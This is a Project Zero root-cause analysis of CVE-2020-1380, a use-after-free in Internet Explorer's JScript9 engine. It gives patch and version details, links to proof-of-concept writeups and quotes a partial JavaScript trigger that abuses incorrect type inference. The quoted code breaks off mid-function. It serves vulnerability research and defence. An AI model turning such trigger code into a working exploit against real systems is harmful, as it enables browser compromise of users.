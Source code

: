 # CVE-2020-1380: Internet Explorer JScript9 Use-after-Free
*Maddie Stone & Samuel Groß, Project Zero (Originally posted on [Project Zero blog](https://googleprojectzero.blogspot.com/p/rca.html) 2020-08-24)*


## The Basics

**Disclosure or Patch Date:** 11 August 2020

**Product:** Microsoft Internet Explorer

**Advisory:** https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1380 

**Affected Versions:** For Windows 10 2004, [KB4565503](https://support.microsoft.com/en-us/help/4565503/windows-10-update-kb4565503) and previous

**First Patched Version:** For Windows 10 2004, [KB4566782](https://support.microsoft.com/en-us/help/4566782/windows-10-update-kb4566782)

**Issue/Bug Report:** N/A

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):** Boris Larin ([@oct0xor](https://twitter.com/oct0xor)) of Kaspersky Lab (Thanks to Kaspersky Lab for sharing their detailed analysis!)

## The Code

**Proof-of-concept:** 

* https://securelist.com/ie-and-windows-zero-day-operation-powerfall/97976/
* https://www.trendmicro.com/en_us/research/20/h/cve-2020-1380-analysis-of-recently-fixed-ie-zero-day.html

**Exploit sample:** N/A

**Did you have access to the exploit sample when doing the analysis?** No

## The Vulnerability

**Bug class:** use-after-free

**Vulnerability details:**

[Proof of concept from Trend Micro](https://www.trendmicro.com/en_us/research/20/h/cve-2020-1380-analysis-of-recently-fixed-ie-zero-day.html):
```javascript
function opt(value1, value2, arr, flag) {
	// value1 = int, value2 = int when compiling, Object to trigger
	// arr = Float32Array, flag = int

	value1 = 1;

    arguments.push = Array.prototype.push;
    arguments.length = 0;
    
    // Sets value1 = value2
    arguments.push(value2);

    if (flag == 1) {
        value1 = 2;
    }
 
    // arr is a Float32Array. When value1 has become
    // an Object, valueOf callback is 
    // executed due to incorrect type inference.
```